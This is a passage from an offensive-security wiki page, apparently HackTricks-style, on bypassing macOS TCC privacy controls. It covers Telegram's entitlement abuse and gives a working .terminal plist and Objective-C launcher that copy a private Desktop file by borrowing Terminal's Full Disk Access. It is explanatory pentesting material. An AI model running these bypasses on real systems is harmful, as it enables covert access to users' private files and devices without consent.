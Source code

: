 Telegram had the entitlements `com.apple.security.cs.allow-dyld-environment-variables` and c`om.apple.security.cs.disable-library-validation`, so it was possible to abuse it to **get access to its permissions** such recording with the camera. You can [**find the payload in the writeup**](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/).

## By open invocations

It's possible to invoke open in sandboxed&#x20;

### Terminal Scripts

It's quiet common to give terminal **Full Disk Access (FDA)**, at least in computers used by tech people. And it's possible to invoke **`.terminal`** scripts using with it.

**`.terminal`** scripts are plist files such as this one with the command to execute in the **`CommandString`** key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
    <key>CommandString</key>
    <string>cp ~/Desktop/private.txt /tmp/;</string>
    <key>ProfileCurrentVersion</key>
    <real>2.0600000000000001</real>
    <key>RunCommandAsShell</key>
    <false/>
    <key>name</key>
    <string>exploit</string>
    <key>type</key>
    <string>Window Settings</string>
</dict>
</plist>
```

An application could write a terminal script in a location such as /tmp and launch it with a come such as:

```objectivec
// Write plist in /tmp/tcc.terminal
[...]
NSTask *task = [[NSTask alloc] init];
NSString * exploit_location = @"/tmp/tcc.terminal";
task.launchPath = @"/usr/bin/open";
task.arguments = @[@"-a", @"/System/Applications/Utilities/Terminal.app",
exploit_location]; task.standardOutput = pipe;
[task launch];
```

## By mounting

### CVE-2020-9771 - mount\_apfs TCC bypass and privilege escalation
